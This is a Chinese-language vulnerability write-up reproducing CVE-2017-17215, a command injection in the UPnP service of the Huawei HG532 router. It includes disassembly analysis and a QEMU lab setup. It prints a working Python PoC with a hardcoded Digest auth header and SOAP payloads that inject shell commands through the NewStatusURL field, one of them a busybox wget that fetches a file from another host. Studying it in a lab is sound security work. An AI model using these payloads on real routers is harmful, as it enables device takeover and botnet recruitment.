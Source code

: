 ```yaml
---
layout: post
title:  "CVE-2017-17215-HG532命令注入漏洞"
date:   2019-9-14
categories: 
excerpt: 
---
```


* content
{:toc}


# **CVE-2017-17215-HG532命令注入漏洞**

如果图片无法显示：
<https://github.com/tearorca/tearorca.github.io/blob/master/_posts/2019-9-14-CVE-2017-17215-HG532%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md>


## **漏洞介绍**

华为HG532的upnp存在命令注入漏洞，在端口37215发送数据包可以造成攻击。

cve介绍：
<https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17215>
固件下载地址：
<https://club.huawei.com/forum.php?mod=attachment&aid=Mzc2OTkzMXxkMDc5NTQxMXwxNTY4NDM5ODQwfDEzNDQ4NDg3NHw2NDA1NzQ0>


## **漏洞分析**

poc：

	import requests

	headers = {
		"Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
	}

	data = '''<?xml version="1.0" ?>
	 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
	  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
	   <NewStatusURL>;/bin/busybox wget -g 172.16.16.17 -l /tmp/1 -r /1;</NewStatusURL>
	   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
	  </u:Upgrade>
	 </s:Body>
	</s:Envelope>
	'''
	requests.post('http://172.16.16.21:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)


从poc的data里面可以看到<NewStatusURL>后面跟着的代码有点意思，ida载入upnp，搜索字符串，查看交叉引用。找到位置之后发现这里竟然不是一个函数，不知道什么原因导致这里的一段代码没有生成一个函数。但并不影响阅读。

![image.png](http://ww1.sinaimg.cn/large/7fb67c86ly1g77g8va3koj21500i0qgi.jpg)

	LOAD:00407B20 lui $gp, 0x43
	LOAD:00407B24 addiu $sp, -0x438
	LOAD:00407B28 li $gp, 0x42EB60
	LOAD:00407B2C sw $ra, 0x434($sp)
	LOAD:00407B30 sw $s1, 0x430($sp)
	LOAD:00407B34 sw $s0, 0x42C($sp)
	LOAD:00407B38 sw $gp, 0x18($sp)
	LOAD:00407B3C la $t9, ATP_XML_GetChildNodeByName
	LOAD:00407B40 move $s0, $a0
	LOAD:00407B44 lw $a0, 0x2C($a0)
	LOAD:00407B48 la $a1, aNewdownloadurl # "NewDownloadURL"
	LOAD:00407B50 move $a2, $zero
	LOAD:00407B54 jalr $t9 ; ATP_XML_GetChildNodeByName
	LOAD:00407B58 addiu $a3, $sp, 0x20
	LOAD:00407B5C lw $gp, 0x18($sp)
	LOAD:00407B60 bnez $v0, loc_407BE8
	LOAD:00407B64 move $s1, $v0
	LOAD:00407B68 lw $v0, 0x20($sp)
	LOAD:00407B6C nop
	LOAD:00407B70 beqz $v0, loc_407BE8
	LOAD:00407B74 lui $a1, 0x41
	LOAD:00407B78 la $t9, ATP_XML_GetChildNodeByName
	LOAD:00407B7C lw $a0, 0x2C($s0)
	LOAD:00407B80 la $a1, aNewstatusurl # "NewStatusURL"
	LOAD:00407B84 move $a2, $zero
	LOAD:00407B88 jalr $t9 ; ATP_XML_GetChildNodeByName
	LOAD:00407B8C addiu $a3, $sp, 0x24
	LOAD:00407B90 lw $gp, 0x18($sp)
	LOAD:00407B94 bnez $v0, loc_407BE8
	LOAD:00407B98 move $s1, $v0
	LOAD:00407B9C lw $v0, 0x24($sp)
	LOAD:00407BA0 nop
	LOAD:00407BA4 beqz $v0, loc_407BE8
	LOAD:00407BA8 addiu $s0, $sp, 0x28
	LOAD:00407BAC la $t9, snprintf
	LOAD:00407BB0 lw $a3, 0x20($sp)
	LOAD:00407BB4 la $a2, aUpgGUST1Firmwa # "upg -g -U %s -t '1 Firmware Upgrade Ima"...
	LOAD:00407BBC move $a0, $s0
	LOAD:00407BC0 li $a1, 0x400
	LOAD:00407BC4 jalr $t9 ; snprintf
	LOAD:00407BC8 sw $v0, 0x10($sp)
	LOAD:00407BCC lw $gp, 0x18($sp)
	LOAD:00407BD0 nop
	LOAD:00407BD4 la $t9, system
	LOAD:00407BD8 nop
	LOAD:00407BDC jalr $t9 ; system
	LOAD:00407BE0 move $a0, $s0
	LOAD:00407BE4 lw $gp, 0x18($sp)


分析一下这段代码，前面主要是调用了ATP_XML_GetChildNodeByName这个函数寻找"NewDownloadURL"和"NewStatusURL"的节头。寻找的"NewDownloadURL"的结果保存在$sp+0x20中，然后调用了snprintf。

snprintf函数介绍：snprintf()，函数原型为int snprintf(char *str, size_t size, const char *format, ...)。将可变参数 “…” 按照format的格式格式化为字符串，然后再将其拷贝至str中。

看一下snprintf的几个参数，第一个参数是$s0，从上面可以看到s0为$sp+0x28也就是复制的地址，第二个是长度为0x400,第三个是格式化参数"upg -g -U %s -t '1 Firmware Upgrade Image' -c upnp -r %s -d -"，最后一个就是前面"NewDownloadURL"的节点。这里也就是把"NewDownloadURL"节点的值传到$sp+0x28的位置。

	LOAD:00407BAC la $t9, snprintf
	LOAD:00407BB0 lw $a3, 0x20($sp)
	LOAD:00407BB4 la $a2, aUpgGUST1Firmwa #"upg -g -U %s -t '1 Firmware Upgrade Image' -c upnp -r %s -d -"
	LOAD:00407BBC move $a0, $s0
	LOAD:00407BC0 li $a1, 0x400
	LOAD:00407BC4 jalr $t9 ; snprintf
	LOAD:00407BC8 sw $v0, 0x10($sp)

之后紧接着就跟着一个system，参数为$s0也就是前面拷贝的节点信息，这里没有做任何的过滤，所以完全可以达到命令注入的目的。。

	LOAD:00407BD4 la $t9, system
	LOAD:00407BD8 nop
	LOAD:00407BDC jalr $t9 ; system
	LOAD:00407BE0 move $a0, $s0

## **环境搭建**

先下载qemu-mips的虚拟机，只需要下在这两个文件就可以了，下载地址：

<https://people.debian.org/~aurel32/qemu/mips/>，然后写一个脚本进行运行。

![image.png](http://ww1.sinaimg.cn/large/7fb67c86ly1g77gaoeyljj214y07o0yo.jpg)

直接运行，帐号密码都是root，之后进行网络配置。

![image.png](https://ws1.sinaimg.cn/large/7fb67c86ly1g7005b637uj20wf0c1tdh.jpg)

这里在处理qemu虚拟机网络配置的时候出现了点问题，最开始是按照网上一些教程进行配置，配置了eth1之后发现并没出现ip地址。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7005j4ywqj20wm0gtte2.jpg>)

既然不能让它自己出现，那只有我们来给了

ifconfig eth1 10.10.10.2/24

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7005rc1tsj20wp0jejxr.jpg>)

然后就可以在本机上用ssh进行连接虚拟机。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7005xrx1oj20wq0aygs8.jpg>)

这个功能在这里对我们没什么用，接下来主要是把固件提取出来的文件拷贝到虚拟机中。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g70068q6jmj20op0l3jxu.jpg>)

进入目录之后就可以用chroot . sh拿到一个shell。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7006en5ehj20p9087q44.jpg>)

## **漏洞复现**

运行upnp，但发现好像没什么效果，查看进程也没有出现。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7006ldcpzj20pq03b0ss.jpg>)

于是怀疑是不是还有别的进程需要运行，想到该漏洞发现的端口号为37215,于是查找打开这个端口的进程。发现虚拟机里没有grep，那只能到本机里面去找，找到了mic这个文件。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7006ugtbwj209z021glk.jpg>)

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7007672ynj20pa0120t4.jpg>)

在虚拟机里面尝试运行它。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7007lr7vjj20jp0h60vn.jpg>)

发现可以运行，对前面的poc进行修改，在<NewStatusURL>中间尝试进行命令注入。

	import requests

	headers = {
		"Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
	}

	data = '''<?xml version="1.0" ?>
	 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
	  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
	   <NewStatusURL>;ls;date;</NewStatusURL>
	   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
	  </u:Upgrade>
	 </s:Body>
	</s:Envelope>
	'''
	requests.post('http://10.10.10.2:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)


在本机运行poc

	<NewStatusURL>;ls;date;</NewStatusURL>

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7007xidm2j20v40awaib.jpg>)

	<NewStatusURL>;ifconfig;</NewStatusURL>

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g700844ekjj20ur0aaaik.jpg>)

## **参考链接**

<https://xz.aliyun.com/t/4819#toc-3>

<https://research.checkpoint.com/good-zero-day-skiddie/>
